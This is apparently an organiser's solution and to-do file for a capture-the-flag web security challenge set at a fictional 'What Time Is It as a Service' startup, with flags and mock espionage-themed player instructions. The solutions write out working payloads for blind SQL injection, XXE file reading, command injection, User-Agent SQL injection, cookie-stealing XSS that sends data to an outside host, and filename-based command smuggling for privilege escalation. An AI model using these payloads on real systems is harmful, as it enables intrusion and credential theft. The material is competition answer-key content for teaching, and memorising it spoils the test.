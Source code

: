 * !!! Read this file as RAW !!!

* Compagnies
** Startup 1 — WTIIaaS
   - What Time Is It as a Service
   - Interface pour avoir l'heure
* Solutions
** DONE Breaking into the intranet
   CLOSED: [2017-03-10 Fri 21:15]
   In /old/ (leaked through robots.txt) resides a crypto challenge. Once "reversed", a login to the intranet is given.
   Email: zana.elbert@wtiiaas.csg
   Password: FallOutBoyzForever1121
   It's a simple XOR with a satic ROT-n key.
   with open("out.bin", 'rb') as output:
     print("".join(magicify(output.read() ,key)))
** DONE Blind SQL injection API key leak
   CLOSED: [2017-02-25 Sat 01:12]
   <key>' or (8=substr((select key_guid from apikeys limit 1,1),1,1) and sleep(1)) #</key>
** DONE XXE
   CLOSED: [2017-02-25 Sat 01:12]
   In the API, free action `getTime' is vulnerable to XXE
<?xml version="1.0"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/api/api.php" >]>
<WTIIaaS>
  <identity>
    <key>&xxe;</key>
  </identity>
  
  <query action="getTime"/>
</WTIIaaS>
        
** DONE RCE (Command injection) — Requires premium API key to have leaked beforehand, possible through various means
   CLOSED: [2017-02-25 Sat 01:12]
   In the API, premium action `getTimeWithFormat' is vulnerable to a command injection in the `format' field
<?xml version="1.0"?>
<WTIIaaS>
  <identity>
    <key>85922064</key>
  </identity>
  
  <query action="getTimeWithFormat" format='%m";id;f="' />
</WTIIaaS>
** DONE Password dump
   CLOSED: [2017-02-25 Sat 01:12]
| Christia | Shore | shore.christia@wtiiaas.csg | f6432274349b5cb93433f8ed886a3f37 | winter |
Password reuse on pastebin, indexed @ http://pastebin.com/EFxqS501, uploaded Fri Feb 24 21:19:26 EST 2017
One of the ways to get to the intranet

** DONE INSERT SQLi in User-Agent ("logging" mechanism)
   CLOSED: [2017-02-25 Sat 01:13]
*** POC
   User-Agent: ' or extractvalue(1,concat(0x7e,(SELECT * from flag limit 0,1))) or '
   
   CSG_SomeThingsAreStrange
** DONE Steal the CEO's cookies
   CLOSED: [2017-03-01 Wed 23:14]
*** PoC
    <img id=f src=x /><script>var elem=document.getElementById('f');elem.src="http://192.168.0.199:8080/"+document.cookie;</script>
** DONE Extract the banking info from /home/sysadmin/banking.txt.pgp
   CLOSED: [2017-03-10 Fri 01:55]
   From a RCE, proceed to privilege escalate and extract the key from .bash_history
*** Local privilege escalation
    Vulnerable bash script running through crontab, as sysadmin
    Create files in /tmp with filename containing trailing bash commands.
    ie run $ touch "/tmp/a;cp -R \$HOME ."
    and then $ touch "/tmp/a;chmod -R 777 sysadmin"
    This will copy sysadmin's homedir to /tmp and make it world-readable. 
*** Decrypted file content
    $ gpg --passphrase "@\!YOUcantGUESSthis#@\!" --decrypt banking.txt.pgp
    Bank account
    ------------
    SWIFT/BIC: CSGS-US-35-A9F
    Password : HS9;~7HP9P@tYm;8nvo[|mL;:D%BwUh5-X'0!v%I
    
* Todos
** DONE Make mysql start automatically
   CLOSED: [2017-03-11 Sat 02:21]
** DONE Setup Mysql schema on image run
   CLOSED: [2017-03-11 Sat 15:05]
** WONTFIX Fix images in team (CFO/CTO)
** DONE Make API documentation in HTML
   CLOSED: [2017-03-09 Thu 16:01]
** WONTFIX Make employees.php page
** DONE Index a database dump [identitygenerator.py] → 
   CLOSED: [2017-02-24 Fri 21:18]
** DONE Make intranet login
   CLOSED: [2017-02-25 Sat 00:21]
** DONE Add User-Agent sql injection
   CLOSED: [2017-02-25 Sat 01:10]
** DONE Implement a messaging system
   CLOSED: [2017-02-25 Sat 18:11]
** DONE Implement a XSS bot for the CEO's account flag
   CLOSED: [2017-03-08 Wed 00:16]
   See ./src/wtiiaas/scripts/xss.js
** DONE Automate the XSS bot
   CLOSED: [2017-03-10 Fri 15:47]
*** See ./src/wtiiaas/scripts/xss.sh

** WONTFIX Make the instructions HTML
** DONE Privilege escalation from RCE
   CLOSED: [2017-03-10 Fri 00:29]
   Bash crontab running as sysadmin, banking file is owned by sysadmin
   See ./src/wtiiaas/scripts/deletetmp.sh
** DONE Generate PGP file with banking info
   CLOSED: [2017-03-01 Wed 22:13]
*** Command
    $ gpg --batch --yes --passphrase "@\!YOUcantGUESSthis#@\!" --output banking.txt.pgp --symmetric banking.txt
** DONE Add extra ways to login to intranet
   CLOSED: [2017-03-10 Fri 21:35]
** DONE Clean database before export
   CLOSED: [2017-03-11 Sat 15:06]
** DONE Make app use dedicated SQL user (nonroot)
   CLOSED: [2017-03-02 Thu 00:47]
** DONE Fix Dockerfile
   CLOSED: [2017-03-11 Sat 02:20]
** DONE Make webserver non www-data read-ONLY
   CLOSED: [2017-03-11 Sat 02:20]
** DONE Modify root password from ENV variable that will be set when container is RUN
   CLOSED: [2017-03-11 Sat 02:20]
** DONE Clean .bash_history for sysadmin to show GPG symmetric password
   CLOSED: [2017-03-11 Sat 02:20]
* Flags
** CSG-CIACantBreakThisCrapto (Crypto intranet message)
** CSG-WowItsAsIfXSSIsActuallyABigDeal (XSS)
** CSG_SomeThingsAreStrange (SQLi User-Agent)
** CSG-HarvestAllTheSessions (Steal session through XSS and check CEO's messages)


* Instructions
Comrades, the time has come.
Comrade Mao’s writings have proven true: Western imperialism is taking our country hostage! The 20-year-old millionaire programmers heading these startups are causing an immeasurable embarrassment to the homeland because of their sense of innovation and speedy development of revolutionary products. We see ourselves forced to create a super-mega-secret unit that will allow us to go to cyber-war with these profit thirsty imperialist Americans!
Your mission is to infiltrate the servers of one of these American startups and exfiltrate specific information. The information will then be relayed to the politburo of the Central Committee of the Communist Party in order to obtain an economic advantage. 
Rumor has it that a kiddie script exploited the site a few months ago and that a password dump is available online.
Your target: http://wtiiaas.csgames:YOUR_TEAMS_PORT/  (Written on your team’s credential sheet)

In solidarity,

Vos tâches:
- Obtenir la liste complète des employés
  - employees.txt
  - Nom, prénom, password
    
- Trouver le mot de passe du CEO
  - CEO-pass.txt
  - Mot de passe en clair, hashé = moitié des points
    
- Obtenir de l'exécution de code sur le serveur web
  - code-exec.txt
    - Instruction pour reproduire l'exécution de code (quelques lignes avec preuve de concept (PoC))
    
- Obtenir 
  
- Obtenir les privilèges `root' sur le serveur
  - Remise: rootwriteup.txt

- Quelques flags sont cachés sur le serveur.
  - flags.txt
    - Format: CSG_[a-zA-Z]+

  et votre patrie a besoin de vous afin de regagner du terrain sur l'économie mondiale. Ces damnés capitalistes de l'ouest nous mennent une lutte d'innovation sans relâche et semblent tous être  américains 

 votre patrie a besoin de vous. 
